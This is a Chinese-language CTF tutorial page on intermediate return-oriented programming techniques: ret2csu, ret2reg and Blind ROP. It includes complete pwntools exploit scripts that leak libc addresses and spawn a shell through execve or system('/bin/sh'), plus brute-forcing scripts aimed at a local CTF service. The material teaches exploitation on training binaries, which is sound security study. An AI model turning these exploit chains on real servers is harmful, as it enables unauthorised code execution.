



# 中级ROP

中级 ROP 主要是使用了一些比较巧妙的 Gadgets。

## ret2csu

### 原理

在 64 位程序中，函数的前 6 个参数是通过寄存器传递的，但是大多数时候，我们很难找到每一个寄存器对应的gadgets。 这时候，我们可以利用 x64 下的 __libc_csu_init 中的 gadgets。这个函数是用来对 libc 进行初始化操作的，而一般的程序都会调用 libc 函数，所以这个函数一定会存在。我们先来看一下这个函数(当然，不同版本的这个函数有一定的区别)

```asm
.text:00000000004005C0 ; void _libc_csu_init(void)
.text:00000000004005C0                 public __libc_csu_init
.text:00000000004005C0 __libc_csu_init proc near               ; DATA XREF: _start+16o
.text:00000000004005C0                 push    r15
.text:00000000004005C2                 push    r14
.text:00000000004005C4                 mov     r15d, edi
.text:00000000004005C7                 push    r13
.text:00000000004005C9                 push    r12
.text:00000000004005CB                 lea     r12, __frame_dummy_init_array_entry
.text:00000000004005D2                 push    rbp
.text:00000000004005D3                 lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:00000000004005DA                 push    rbx
.text:00000000004005DB                 mov     r14, rsi
.text:00000000004005DE                 mov     r13, rdx
.text:00000000004005E1                 sub     rbp, r12
.text:00000000004005E4                 sub     rsp, 8
.text:00000000004005E8                 sar     rbp, 3
.text:00000000004005EC                 call    _init_proc
.text:00000000004005F1                 test    rbp, rbp
.text:00000000004005F4                 jz      short loc_400616
.text:00000000004005F6                 xor     ebx, ebx
.text:00000000004005F8                 nop     dword ptr [rax+rax+00000000h]
.text:0000000000400600
.text:0000000000400600 loc_400600:                             ; CODE XREF: __libc_csu_init+54j
.text:0000000000400600                 mov     rdx, r13
.text:0000000000400603                 mov     rsi, r14
.text:0000000000400606                 mov     edi, r15d
.text:0000000000400609                 call    qword ptr [r12+rbx*8]
.text:000000000040060D                 add     rbx, 1
.text:0000000000400611                 cmp     rbx, rbp
.text:0000000000400614                 jnz     short loc_400600
.text:0000000000400616
.text:0000000000400616 loc_400616:                             ; CODE XREF: __libc_csu_init+34j
.text:0000000000400616                 add     rsp, 8
.text:000000000040061A                 pop     rbx
.text:000000000040061B                 pop     rbp
.text:000000000040061C                 pop     r12
.text:000000000040061E                 pop     r13
.text:0000000000400620                 pop     r14
.text:0000000000400622                 pop     r15
.text:0000000000400624                 retn
.text:0000000000400624 __libc_csu_init endp
```

这里我们可以利用以下几点

- 从 0x000000000040061A 一直到结尾，我们可以利用栈溢出构造栈上数据来控制 rbx,rbp,r12,r13,r14,r15 寄存器的数据。
- 从 0x0000000000400600 到 0x0000000000400609，我们可以将 r13 赋给 rdx,将 r14 赋给 rsi，将 r15d 赋给 edi（需要注意的是，虽然这里赋给的是 edi，**但其实此时 rdi 的高 32 位寄存器值为 0（自行调试）**，所以其实我们可以控制 rdi 寄存器的值，只不过只能控制低 32 位），而这三个寄存器，也是 x64 函数调用中传递的前三个寄存器。此外，如果我们可以合理地控制 r12 与 rbx，那么我们就可以调用我们想要调用的函数。比如说我们可以控制 rbx 为 0，r12 为存储我们想要调用的函数的地址。
- 从 0x000000000040060D 到 0x0000000000400614，我们可以控制 rbx 与 rbp 的之间的关系为rbx+1 = rbp，这样我们就不会执行 loc_400600，进而可以继续执行下面的汇编程序。这里我们可以简单的设置rbx=0，rbp=1。

### 示例

这里我们以蒸米的一步一步学 ROP 之 linux_x64 篇中 level5 为例进行介绍。首先检查程序的安全保护

```shell
➜  ret2__libc_csu_init git:(iromise) ✗ checksec level5
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序为 64 位，开启了堆栈不可执行保护。

其次，寻找程序的漏洞，可以看出程序中有一个简单的栈溢出

```c
ssize_t vulnerable_function()
{
  char buf; // [sp+0h] [bp-80h]@1

  return read(0, &buf, 0x200uLL);
}
```

简单浏览下程序，发现程序中既没有 system 函数地址，也没有 /bin/sh 字符串，所以两者都需要我们自己去构造了。

**注：这里我尝试在我本机使用 system 函数来获取 shell 失败了，应该是环境变量的问题，所以这里使用的是execve 来获取 shell。**

基本利用思路如下

- 利用栈溢出执行 libc_csu_gadgets 获取 write 函数地址，并使得程序重新执行 main 函数
- 根据 libcsearcher 获取对应 libc 版本以及 execve 函数地址
- 再次利用栈溢出执行 libc_csu_gadgets 向 bss 段写入 execve 地址以及 '/bin/sh’ 地址，并使得程序重新执行main 函数。
- 再次利用栈溢出执行 libc_csu_gadgets 执行 execve('/bin/sh') 获取 shell。

exp 如下

```python
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
## write(1,write_got,8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
## execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()
```

### 思考

#### 改进

在上面的时候，我们直接利用了这个通用 gadgets，其输入的字节长度为 128。但是，并不是所有的程序漏洞都可以让我们输入这么长的字节。那么当允许我们输入的字节数较少的时候，我们该怎么有什么办法呢？下面给出了几个方法

##### 改进1 - 提前控制 rbx 与 rbp

可以看到在我们之前的利用中，我们利用这两个寄存器的值的主要是为了满足 cmp 的条件，并进行跳转。如果我们可以提前控制这两个数值，那么我们就可以减少 16 字节，即我们所需的字节数只需要112。

##### 改进2-多次利用

其实，改进 1 也算是一种多次利用。我们可以看到我们的 gadgets 是分为两部分的，那么我们其实可以进行两次调用来达到的目的，以便于减少一次 gadgets 所需要的字节数。但这里的多次利用需要更加严格的条件

- 漏洞可以被多次触发
- 在两次触发之间，程序尚未修改 r12-r15 寄存器，这是因为要两次调用。

**当然，有时候我们也会遇到一次性可以读入大量的字节，但是不允许漏洞再次利用的情况，这时候就需要我们一次性将所有的字节布置好，之后慢慢利用。**

#### gadget

其实，除了上述这个gadgets，gcc默认还会编译进去一些其它的函数

```text
_init
_start
call_gmon_start
deregister_tm_clones
register_tm_clones
__do_global_dtors_aux
frame_dummy
__libc_csu_init
__libc_csu_fini
_fini
```

我们也可以尝试利用其中的一些代码来进行执行。此外，由于 PC 本身只是将程序的执行地址处的数据传递给CPU，而 CPU 则只是对传递来的数据进行解码，只要解码成功，就会进行执行。所以我们可以将源程序中一些地址进行偏移从而来获取我们所想要的指令，只要可以确保程序不崩溃。

需要一说的是，在上面的 libc_csu_init 中我们主要利用了以下寄存器

- 利用尾部代码控制了rbx，rbp，r12，r13，r14，r15。
- 利用中间部分的代码控制了rdx，rsi，edi。

而其实 libc_csu_init 的尾部通过偏移是可以控制其他寄存器的。其中，0x000000000040061A 是正常的起始地址，**可以看到我们在 0x000000000040061f 处可以控制 rbp 寄存器，在0x0000000000400621 处可以控制 rsi寄存器。**而如果想要深入地了解这一部分的内容，就要对汇编指令中的每个字段进行更加透彻地理解。如下。

```asm
gef➤  x/5i 0x000000000040061A
   0x40061a <__libc_csu_init+90>:	pop    rbx
   0x40061b <__libc_csu_init+91>:	pop    rbp
   0x40061c <__libc_csu_init+92>:	pop    r12
   0x40061e <__libc_csu_init+94>:	pop    r13
   0x400620 <__libc_csu_init+96>:	pop    r14
gef➤  x/5i 0x000000000040061b
   0x40061b <__libc_csu_init+91>:	pop    rbp
   0x40061c <__libc_csu_init+92>:	pop    r12
   0x40061e <__libc_csu_init+94>:	pop    r13
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
gef➤  x/5i 0x000000000040061A+3
   0x40061d <__libc_csu_init+93>:	pop    rsp
   0x40061e <__libc_csu_init+94>:	pop    r13
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret
gef➤  x/5i 0x000000000040061e
   0x40061e <__libc_csu_init+94>:	pop    r13
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret
   0x400625:	nop
gef➤  x/5i 0x000000000040061f
   0x40061f <__libc_csu_init+95>:	pop    rbp
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret
   0x400625:	nop
gef➤  x/5i 0x0000000000400620
   0x400620 <__libc_csu_init+96>:	pop    r14
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret
   0x400625:	nop
   0x400626:	nop    WORD PTR cs:[rax+rax*1+0x0]
gef➤  x/5i 0x0000000000400621
   0x400621 <__libc_csu_init+97>:	pop    rsi
   0x400622 <__libc_csu_init+98>:	pop    r15
   0x400624 <__libc_csu_init+100>:	ret
   0x400625:	nop
gef➤  x/5i 0x000000000040061A+9
   0x400623 <__libc_csu_init+99>:	pop    rdi
   0x400624 <__libc_csu_init+100>:	ret
   0x400625:	nop
   0x400626:	nop    WORD PTR cs:[rax+rax*1+0x0]
   0x400630 <__libc_csu_fini>:	repz ret
```

### 题目

- 2016 XDCTF pwn100
- 2016 华山杯 SU_PWN

### 参考阅读

- http://wooyun.jozxing.cc/static/drops/papers-7551.html
- http://wooyun.jozxing.cc/static/drops/binary-10638.html

## ret2reg

### 原理

1. 查看溢出函返回时哪个寄存值指向溢出缓冲区空间
2. 然后反编译二进制，查找 call reg 或者jmp reg指令，将 EIP 设置为该指令地址
3. reg所指向的空间上注入 Shellcode (需要确保该空间是可以执行的，但通常都是栈上的)

## BROP

### 基本介绍

BROP(Blind ROP)于2014年由Standford的Andrea Bittau提出，其相关研究成果发表在Oakland 2014，其论文题目是**Hacking Blind**，下面是作者对应的paper和slides,以及作者相应的介绍

- [paper](http://www.scs.stanford.edu/brop/bittau-brop.pdf)
- [slide](http://www.scs.stanford.edu/brop/bittau-brop-slides.pdf)

BROP是没有对应应用程序的源代码或者二进制文件下，对程序进行攻击，劫持程序的执行流。

### 攻击条件

1. 源程序必须存在栈溢出漏洞，以便于攻击者可以控制程序流程。
2. 服务器端的进程在崩溃之后会重新启动，并且重新启动的进程的地址与先前的地址一样（这也就是说即使程序有ASLR保护，但是其只是在程序最初启动的时候有效果）。目前nginx, MySQL, Apache, OpenSSH等服务器应用都是符合这种特性的。

### 攻击原理

目前，大部分应用都会开启ASLR、NX、Canary保护。这里我们分别讲解在BROP中如何绕过这些保护，以及如何进行攻击。

#### 基本思路

在BROP中，基本的遵循的思路如下

-   判断栈溢出长度
    -   暴力枚举
-   Stack Reading
    -   获取栈上的数据来泄露canaries，以及ebp和返回地址。
-   Blind ROP
    -   找到足够多的 gadgets 来控制输出函数的参数，并且对其进行调用，比如说常见的 write 函数以及puts函数。
-   Build the exploit
    -   利用输出函数来 dump 出程序以便于来找到更多的 gadgets，从而可以写出最后的 exploit。

#### 栈溢出长度

直接从1暴力枚举即可，直到发现程序崩溃。

#### Stack Reading

如下所示，这是目前经典的栈布局

```
buffer|canary|saved fame pointer|saved returned address
```

要向得到canary以及之后的变量，我们需要解决第一个问题，如何得到overflow的长度，这个可以通过不断尝试来获取。

其次，关于canary以及后面的变量，所采用的的方法一致，这里我们以canary为例。

canary本身可以通过爆破来获取，但是如果只是愚蠢地枚举所有的数值的话，显然是低效的。

需要注意的是，攻击条件2表明了程序本身并不会因为crash有变化，所以每次的canary等值都是一样的。所以我们可以按照字节进行爆破。正如论文中所展示的，每个字节最多有256种可能，所以在32位的情况下，我们最多需要爆破1024次，64位最多爆破2048次。



#### Blind ROP

##### 基本思路

最朴素的执行write函数的方法就是构造系统调用。

```asm
pop rdi; ret # socket
pop rsi; ret # buffer
pop rdx; ret # length
pop rax; ret # write syscall number
syscall
```

但通常来说，这样的方法都是比较困难的，因为想要找到一个syscall的地址基本不可能。。。我们可以通过转换为找write的方式来获取。

###### BROP gadgets

首先，在libc_csu_init的结尾一长串的gadgets，我们可以通过偏移来获取write函数调用的前两个参数。正如文中所展示的



###### find a call write

我们可以通过plt表来获取write的地址。

###### control rdx

需要注意的是，rdx只是我们用来输出程序字节长度的变量，只要不为0即可。一般来说程序中的rdx经常性会不是零。但是为了更好地控制程序输出，我们仍然尽量可以控制这个值。但是，在程序

```asm
pop rdx; ret
```

这样的指令几乎没有。那么，我们该如何控制rdx的数值呢？这里需要说明执行strcmp的时候，rdx会被设置为将要被比较的字符串的长度，所以我们可以找到strcmp函数，从而来控制rdx。

那么接下来的问题，我们就可以分为两项

-   寻找gadgets
-   寻找PLT表
    -   write入口
    -   strcmp入口

##### 寻找gadgets

首先，我们来想办法寻找gadgets。此时，由于尚未知道程序具体长什么样，所以我们只能通过简单的控制程序的返回地址为自己设置的值，从而而来猜测相应的gadgets。而当我们控制程序的返回地址时，一般有以下几种情况

- 程序直接崩溃
- 程序运行一段时间后崩溃
- 程序一直运行而并不崩溃

为了寻找合理的gadgets，我们可以分为以下两步

###### 寻找stop gadgets

所谓`stop gadget`一般指的是这样一段代码：当程序的执行这段代码时，程序会进入无限循环，这样使得攻击者能够一直保持连接状态。

> 其实stop gadget也并不一定得是上面的样子，其根本的目的在于告诉攻击者，所测试的返回地址是一个gadgets。

之所以要寻找stop gadgets，是因为当我们猜到某个gadgtes后，如果我们仅仅是将其布置在栈上，由于执行完这个gadget之后，程序还会跳到栈上的下一个地址。如果该地址是非法地址，那么程序就会crash。这样的话，在攻击者看来程序只是单纯的crash了。因此，攻击者就会认为在这个过程中并没有执行到任何的`useful gadget`，从而放弃它。例子如下图



但是，如果我们布置了`stop gadget`，那么对于我们所要尝试的每一个地址，如果它是一个gadget的话，那么程序不会崩溃。接下来，就是去想办法识别这些gadget。

###### 识别 gadgets

那么，我们该如何识别这些gadgets呢？我们可以通过栈布局以及程序的行为来进行识别。为了更加容易地进行介绍，这里定义栈上的三种地址

-   **Probe**
    -   探针，也就是我们想要探测的代码地址。一般来说，都是64位程序，可以直接从0x400000尝试，如果不成功，有可能程序开启了PIE保护，再不济，就可能是程序是32位了。。这里我还没有特别想明白，怎么可以快速确定远程的位数。
-   **Stop**
    -   不会使得程序崩溃的stop gadget的地址。
-   **Trap**
    -   可以导致程序崩溃的地址

我们可以通过在栈上摆放不同顺序的**Stop**与 **Trap**从而来识别出正在执行的指令。因为执行Stop意味着程序不会崩溃，执行Trap意味着程序会立即崩溃。这里给出几个例子

-   probe,stop,traps(traps,traps,...)
    -   我们通过程序崩溃与否(**如果程序在probe处直接崩溃怎么判断**)可以找到不会对栈进行pop操作的gadget，如
        -   ret
        -   xor eax,eax; ret
-   probe,trap,stop,traps
    -   我们可以通过这样的布局找到只是弹出一个栈变量的gadget。如
        -   pop rax; ret
        -   pop rdi; ret
-   probe, trap, trap, trap, trap, trap, trap, stop, traps
    -   我们可以通过这样的布局来找到弹出6个栈变量的gadget，也就是与brop gadget相似的gadget。**这里感觉原文是有问题的，比如说如果遇到了只是pop一个栈变量的地址，其实也是不会崩溃的，，**这里一般来说会遇到两处比较有意思的地方
        -   plt处不会崩，，
        -   _start处不会崩，相当于程序重新执行。

之所以要在每个布局的后面都放上trap，是为了能够识别出，当我们的probe处对应的地址执行的指令跳过了stop，程序立马崩溃的行为。

但是，即使是这样，我们仍然难以识别出正在执行的gadget到底是在对哪个寄存器进行操作。

但是，需要注意的是向BROP这样的一下子弹出6个寄存器的gadgets，程序中并不经常出现。所以，如果我们发现了这样的gadgets，那么，有很大的可能性，这个gadgets就是brop gadgets。此外，这个gadgets通过错位还可以生成pop rsp等这样的gadgets，可以使得程序崩溃也可以作为识别这个gadgets的标志。

此外，根据我们之前学的ret2libc_csu_init可以知道该地址减去0x1a就会得到其上一个gadgets。可以供我们调用其它函数。

需要注意的是probe可能是一个stop gadget，我们得去检查一下，怎么检查呢？我们只需要让后面所有的内容变为trap地址即可。因为如果是stop gadget的话，程序会正常执行，否则就会崩溃。看起来似乎很有意思.

##### 寻找PLT

如下图所示，程序的plt表具有比较规整的结构，每一个plt表项都是16字节。而且，在每一个表项的6字节偏移处，是该表项对应的函数的解析路径，即程序最初执行该函数的时候，会执行该路径对函数的got地址进行解析。


此外，对于大多数plt调用来说，一般都不容易崩溃，即使是使用了比较奇怪的参数。所以说，如果我们发现了一系列的长度为16的没有使得程序崩溃的代码段，那么我们有一定的理由相信我们遇到了plt表。除此之外，我们还可以通过前后偏移6字节，来判断我们是处于plt表项中间还是说处于开头。

##### 控制rdx

当我们找到plt表之后，下面，我们就该想办法来控制rdx的数值了，那么该如何确认strcmp的位置呢？需要提前说的是，并不是所有的程序都会调用strcmp函数，所以在没有调用strcmp函数的情况下，我们就得利用其它方式来控制rdx的值了。这里给出程序中使用strcmp函数的情况。

之前，我们已经找到了brop的gadgets，所以我们可以控制函数的前两个参数了。与此同时，我们定义以下两种地址

- readable，可读的地址。
- bad, 非法地址，不可访问，比如说0x0。

那么我们如果控制传递的参数为这两种地址的组合，会出现以下四种情况

- strcmp(bad,bad)
- strcmp(bad,readable)
- strcmp(readable,bad)
- strcmp(readable,readable)

只有最后一种格式，程序才会正常执行。

**注**：在没有PIE保护的时候，64位程序的ELF文件的0x400000处有7个非零字节。

那么我们该如何具体地去做呢？有一种比较直接的方法就是从头到尾依次扫描每个plt表项，但是这个却比较麻烦。我们可以选择如下的一种方法

- 利用plt表项的慢路径
- 并且利用下一个表项的慢路径的地址来覆盖返回地址

这样，我们就不用来回控制相应的变量了。

当然，我们也可能碰巧找到strncmp或者strcasecmp函数，它们具有和strcmp一样的效果。

##### 寻找输出函数

寻找输出函数既可以寻找write，也可以寻找puts。一般现先找puts函数。不过这里为了介绍方便，先介绍如何寻找write。

###### 寻找write@plt

当我们可以控制write函数的三个参数的时候，我们就可以再次遍历所有的plt表，根据write函数将会输出内容来找到对应的函数。需要注意的是，这里有个比较麻烦的地方在于我们需要找到文件描述符的值。一般情况下，我们有两种方法来找到这个值

- 使用rop chain，同时使得每个rop对应的文件描述符不一样
- 同时打开多个连接，并且我们使用相对较高的数值来试一试。

需要注意的是

- linux默认情况下，一个进程最多只能打开1024个文件描述符。
- posix标准每次申请的文件描述符数值总是当前最小可用数值。

当然，我们也可以选择寻找puts函数。

###### 寻找puts@plt

寻找puts函数(这里我们寻找的是 plt)，我们自然需要控制rdi参数，在上面，我们已经找到了brop gadget。那么，我们根据brop gadget偏移9可以得到相应的gadgets（由ret2libc_csu_init中后续可得）。同时在程序还没有开启PIE保护的情况下，0x400000处为ELF文件的头部，其内容为\x7fELF。所以我们可以根据这个来进行判断。一般来说，其payload如下

```
payload = 'A'*length +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)
```

#### 攻击总结

此时，攻击者已经可以控制输出函数了，那么攻击者就可以输出.text段更多的内容以便于来找到更多合适gadgets。同时，攻击者还可以找到一些其它函数，如dup2或者execve函数。一般来说，攻击者此时会去做下事情

- 将socket输出重定向到输入输出
- 寻找“/bin/sh”的地址。一般来说，最好是找到一块可写的内存，利用write函数将这个字符串写到相应的地址。
- 执行execve获取shell，获取execve不一定在plt表中，此时攻击者就需要想办法执行系统调用了。

### 例子

这里我们以 [HCTF2016的出题人失踪了](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/brop/hctf2016-brop) 为例。基本思路如下

#### 确定栈溢出长度

```python
def getbufferflow_length():
    i = 1
    while 1:
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('WelCome my friend,Do you know password?\n')
            sh.send(i * 'a')
            output = sh.recv()
            sh.close()
            if not output.startswith('No password'):
                return i - 1
            else:
                i += 1
        except EOFError:
            sh.close()
            return i - 1
```

根据上面，我们可以确定，栈溢出的长度为72。同时，根据回显信息可以发现程序并没有开启canary保护，否则，就会有相应的报错内容。所以我们不需要执行stack reading。

#### 寻找 stop gadgets

寻找过程如下

```python
def get_stop_addr(length):
    addr = 0x400000
    while 1:
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('password?\n')
            payload = 'a' * length + p64(addr)
            sh.sendline(payload)
            sh.recv()
            sh.close()
            print 'one success addr: 0x%x' % (addr)
            return addr
        except Exception:
            addr += 1
            sh.close()
```

这里我们直接尝试64位程序没有开启PIE的情况，因为一般是这个样子的，，，如果开启了，，那就按照开启了的方法做，，结果发现了不少，，我选择了一个貌似返回到源程序中的地址

```text
one success stop gadget addr: 0x4006b6
```

#### 识别brop gadgets

下面，我们根据上面介绍的原理来得到对应的brop gadgets地址。构造如下，get_brop_gadget是为了得到可能的brop gadget，后面的check_brop_gadget是为了检查。

```python
def get_brop_gadget(length, stop_gadget, addr):
    try:
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
            stop_gadget) + p64(0) * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        print content
        # stop gadget returns memory
        if not content.startswith('WelCome'):
            return False
        return True
    except Exception:
        sh.close()
        return False


def check_brop_gadget(length, addr):
    try:
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + 'a' * 8 * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        return False
    except Exception:
        sh.close()
        return True


##length = getbufferflow_length()
length = 72
##get_stop_addr(length)
stop_gadget = 0x4006b6
addr = 0x400740
while 1:
    print hex(addr)
    if get_brop_gadget(length, stop_gadget, addr):
        print 'possible brop gadget: 0x%x' % addr
        if check_brop_gadget(length, addr):
            print 'success brop gadget: 0x%x' % addr
            break
    addr += 1
```

这样，我们基本得到了brop的gadgets地址0x4007ba

#### 确定puts@plt地址

根据上面，所说我们可以构造如下payload来进行获取

```text
payload = 'A'*72 +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)
```

具体函数如下

```python
def get_puts_addr(length, rdi_ret, stop_gadget):
    addr = 0x400000
    while 1:
        print hex(addr)
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'A' * length + p64(rdi_ret) + p64(0x400000) + p64(
            addr) + p64(stop_gadget)
        sh.sendline(payload)
        try:
            content = sh.recv()
            if content.startswith('\x7fELF'):
                print 'find puts@plt addr: 0x%x' % addr
                return addr
            sh.close()
            addr += 1
        except Exception:
            sh.close()
            addr += 1
```

最后根据plt的结构，选择0x400560作为puts@plt

#### 泄露puts@got地址

在我们可以调用puts函数后，我们可以泄露puts函数的地址，进而获取libc版本，从而获取相关的system函数地址与/bin/sh地址，从而获取shell。我们从0x400000开始泄露0x1000个字节，这已经足够包含程序的plt部分了。代码如下

```python
def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
    sh = remote('127.0.0.1', 9999)
    payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(
        puts_plt) + p64(stop_gadget)
    sh.recvuntil('password?\n')
    sh.sendline(payload)
    try:
        data = sh.recv()
        sh.close()
        try:
            data = data[:data.index("\nWelCome")]
        except Exception:
            data = data
        if data == "":
            data = '\x00'
        return data
    except Exception:
        sh.close()
        return None


##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_plt(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
addr = 0x400000
result = ""
while addr < 0x401000:
    print hex(addr)
    data = leak(length, rdi_ret, puts_plt, addr, stop_gadget)
    if data is None:
        continue
    else:
        result += data
    addr += len(data)
with open('code', 'wb') as f:
    f.write(result)
```

最后，我们将泄露的内容写到文件里。需要注意的是如果泄露出来的是“”,那说明我们遇到了'\x00'，因为puts是输出字符串，字符串是以'\x00'为终止符的。之后利用ida打开binary模式，首先在edit->segments->rebase program 将程序的基地址改为0x400000，然后找到偏移0x560处，如下

```asm
seg000:0000000000400560                 db 0FFh
seg000:0000000000400561                 db  25h ; %
seg000:0000000000400562                 db 0B2h ;
seg000:0000000000400563                 db  0Ah
seg000:0000000000400564                 db  20h
seg000:0000000000400565                 db    0
```

然后按下c,将此处的数据转换为汇编指令，如下

```asm
seg000:0000000000400560 ; ---------------------------------------------------------------------------
seg000:0000000000400560                 jmp     qword ptr cs:601018h
seg000:0000000000400566 ; ---------------------------------------------------------------------------
seg000:0000000000400566                 push    0
seg000:000000000040056B                 jmp     loc_400550
seg000:000000000040056B ; ---------------------------------------------------------------------------
```

这说明，puts@got的地址为0x601018。

#### 程序利用

```python
##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
##leakfunction(length, rdi_ret, puts_plt, stop_gadget)
puts_got = 0x601018

sh = remote('127.0.0.1', 9999)
sh.recvuntil('password?\n')
payload = 'a' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(
    stop_gadget)
sh.sendline(payload)
data = sh.recvuntil('\nWelCome', drop=True)
puts_addr = u64(data.ljust(8, '\x00'))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(
    system_addr) + p64(stop_gadget)
sh.sendline(payload)
sh.interactive()
```

### 参考阅读

- http://ytliu.info/blog/2014/09/28/blind-return-oriented-programming-brop-attack-gong-ji-yuan-li/
- http://bobao.360.cn/learning/detail/3694.html
- http://o0xmuhe.me/2017/01/22/Have-fun-with-Blind-ROP/
